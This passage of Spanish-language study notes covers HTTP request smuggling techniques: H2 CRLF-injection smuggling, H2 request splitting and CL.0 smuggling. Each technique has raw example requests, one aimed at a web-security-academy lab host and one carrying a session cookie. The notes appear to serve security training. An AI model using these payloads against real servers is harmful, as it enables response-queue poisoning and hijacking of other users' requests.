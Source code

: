 ```http
0

GET / HTTP/1.1
Host: domain.com
Content-Length: 12

testing=test
```

**Request2:**
```http
POST / HTTP/2
Host: domain.com
Content-Length: 0

0

POST / HTTP/1.1
Content-Length: 850
Cookie: session=sgYzrktq4DXbbDs5qTRzKqzkxgurqKek

search=test
```

**Explicacion:**
Llevamos a cabo un ataque de **HTTP/2 Request Smuggling** aprovechando una mala sanitización de cabeceras por parte del *front-end*. Usamos un vector exclusivo de **HTTP/2** basado en **inyección CRLF** dentro del valor de una cabecera, lo que nos permite introducir una cabecera `Transfer-Encoding: chunked` maliciosa y un cuerpo que termina en `0`.
- --
## **H2RS via Splitting CRLF Injection**
![[Pasted image 20250819170002.png]]
**Request:**
```http
GET / HTTP/2
Host: domain.com
```

**Explicacion:**
- Explotamos una vulnerabilidad de **request splitting** específica de **HTTP/2**, en la que el servidor no limpia correctamente los **caracteres de control** inyectados en las cabeceras. Inyectamos una secuencia **CRLF** en el valor de una cabecera para **fragmentar la petición HTTP**, *smugglear* una nueva solicitud y **envenenar la cola de respuestas**.
-- -
## **Smuggling con CL.0**
**Request:**
```http
POST /resources/images/blob.svg HTTP/1.1
Host: 0a7b004c04cb921181412f72001900ef.web-security-academy.net
Content-Length: 30


GET /error HTTP/1.1
Test: A
```
*Aclaracion:*
- Probar con la cabecer **`Host`** antes de la cabecera Test.
**
Explicacion:**
Realizamos un ataque de **request smuggling tipo CL.0**, donde el servidor *back-end* ignora el encabezado `Content-Length` en ciertas rutas, permitiendo **inyectar una segunda petición** dentro del cuerpo de una `POST` aparentemente legítima.
-- -